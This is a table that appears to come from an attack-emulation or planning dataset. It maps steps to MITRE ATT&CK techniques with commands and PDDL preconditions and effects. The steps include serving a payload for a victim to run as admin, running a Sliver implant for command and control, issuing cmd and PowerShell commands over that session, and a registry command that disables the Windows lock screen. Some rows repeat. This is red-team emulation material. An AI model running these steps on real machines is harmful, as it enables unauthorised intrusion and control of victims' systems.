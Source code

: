 | 19301991-c518-46ca-a622-378e1be4f1ad | Simulate the victim download and execute malicious payload file as Admin (Root) | \['T1204.002'\] | Manual | \['windows'\] | \['Execution'\] | \['User Execution: Malicious File'\] | None | {'executor': 'Human', 'command': "(This step needs human interaction and (temporarily) cannot be executed automatically)\n(On attacker's machine)\npython -m http.server\n\n(On victim's machine)\n1. Open #{LHOST}:#{LPORT} in the browser\n2. Navigate to the path of the target payload file\n3. Download the payload file\n4. Execute the payload file to #{PATH} as Admin (Root)\n"} | {'HOST': {'default': None, 'description': 'IP address of the attacker machine', 'type': None}, 'LPORT': {'default': None, 'description': 'listening port of the attacter machine', 'type': None}, 'SAVE_PATH': {'default': None, 'description': 'Saved path of the downloaded payload', 'type': None}} | \['(file_prepared_local ?file - file)', '(exe_file ?file - file)', '(unallocated ?path - path)'\] | \['(file_exists ?path - path ?file - file ?t - host)', '(file_executed ?file - file ?t - host)', '(file_executed_as_root ?f - file ?t - host)', '~(unallocated ?path - path)'\] |
| 1f401bbe-de24-41d2-8e34-d026e25bfb94 | Execute a Sliver Implant Payload | \['T1071.001'\] | Sliver | \['windows'\] | \['Command and Control'\] | \['Application Layer Protocol - Web Protocols'\] | Executing a Sliver implant payload will establish a Sliver session.<br> | {'executor': 'None', 'command': 'None\n'} | None | \['(sliver_implant_payload ?p - payload ?t - host)', '(file_payload ?p - payload ?f - file)', '(file_executed ?f - file ?t - host)', '(unallocated ?s - executor)'\] | \['(sliver_session ?s - executor ?t - host)', '~(unallocated ?s - executor)', {'operator': 'When', 'params': {'condition': '(file_executed_as_root ?f - file ?t - host)', 'effect': '(elevated_executor ?s - executor)'}}\] |
| 2074d817-7819-401b-b552-1045672f77f3 | Execute Command (cmd.exe) | \['T1059.003'\] | Sliver | \['windows'\] | \['Execution'\] | \['Command and Scripting Interpreter: Windows Command Shell\n'\] | The `cmd.exe` command executes a Windows command. It runs the specified command on the remote host and returns the result. This command is useful for performing various system tasks. | {'executor': 'Sliver Executor', 'command': 'cmd(#{SessionID},#{Commands})'} | {'SessionID': {'description': 'The session ID of the active Sliver connection.'}} | \['(os_windows ?t - host)', '(sliver_session ?s1 - executor ?t - host)'\] | \['(command_prompt ?s2 - executor ?t - host)', {'operator': 'When', 'params': {'condition': '(elevated_executor ?s1 - executor)', 'effect': '(elevated_executor ?s2 - executor)'}}\] |
| 3dacb0d2-46ee-4c27-ac1b-f9886bf91a56 | Disable Windows Lock Workstation Feature | \['T1112'\] | ART | \['windows'\] | \['Defense Evasion'\] | \['Modify Registry'\] | Modify the registry of the currently logged in user using reg.exe via cmd console to disable the windows Lock workstation feature.<br>See how ransomware abuses this technique- https://www.bleepingcomputer.com/news/security/in-dev-ransomware-forces-you-do-to-survey-before-unlocking-computer/<br> | {'executor': 'Elevated Command Prompt Executor', 'command': 'reg add "HKEY_CURRENT_USER\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System" /v DisableLockWorkstation /t REG_DWORD /d 1 /f\n'} | None | \['(command_prompt ?executor - executor ?target - host)', '(elevated_executor ?executor - executor)', '(os_windows ?target - host)'\] | \['(lock_workstation_disabled ?target - host)'\] |
| 7bfba376-cebc-4094-b1e6-5103b2e83c4e | Execute PowerShell Command | \['T1059.001'\] | Sliver | \['windows'\] | \['Execution'\] | \['Command and Scripting Interpreter: PowerShell\n'\] | The `powershell.exe` command executes a PowerShell script or command on the remote host. This command is useful for performing system monitoring tasks or gathering information about the processes running on a remote machine. | {'executor': 'Sliver Executor', 'command': 'powershell(#{SessionID},#{Commands})'} | {'SessionID': {'description': 'The session ID of the active Sliver connection.'}} | \['(os_windows ?t - host)', '(sliver_session ?s1 - executor ?t - host)'\] | \['(powershell ?s2 - executor ?t - host)', {'operator': 'When', 'params': {'condition': '(elevated_executor ?s1 - executor)', 'effect': '(elevated_executor ?s2 - executor)'}}\] |
| 1f401bbe-de24-41d2-8e34-d026e25bfb94 | Execute a Sliver Implant Payload | \['T1071.001'\] | Sliver | \['windows'\] | \['Command and Control'\] | \['Application Layer Protocol - Web Protocols'\] | Executing a Sliver implant payload will establish a Sliver session.<br> | {'executor': 'None', 'command': 'None\n'} | None | \['(sliver_implant_payload ?p - payload ?t - host)', '(file_payload ?p - payload ?f - file)', '(file_executed ?f - file ?t - host)', '(unallocated ?s - executor)'\] | \['(sliver_session ?s - executor ?t - host)', '~(unallocated ?s - executor)', {'operator': 'When', 'params': {'condition': '(file_executed_as_root ?f - file ?t - host)', 'effect': '(elevated_executor ?s - executor)'}}\] |
| 7bfba376-cebc-4094-b1e6-5103b2e83c4e | Execute PowerShell Command | \['T1059.001'\] | Sliver | \['windows'\] | \['Execution'\] | \['Command and Scripting Interpreter: PowerShell\n'\] | The `powershell.exe` command executes a PowerShell script or command on the remote host. This command is useful for performing system monitoring tasks or gathering information about the processes running on a remote machine. | {'executor': 'Sliver Executor', 'command': 'powershell(#{SessionID},#{Commands})'} | {'SessionID': {'description': 'The session ID of the active Sliver connection.'}} | \['(os_windows ?t - host)', '(sliver_session ?s1 - executor ?t - host)'\] | \['(powershell ?s2 - executor ?t - host)', {'operator': 'When', 'params': {'condition': '(elevated_executor ?s1 - executor)', 'effect': '(elevated_executor ?s2 - executor)'}}\] |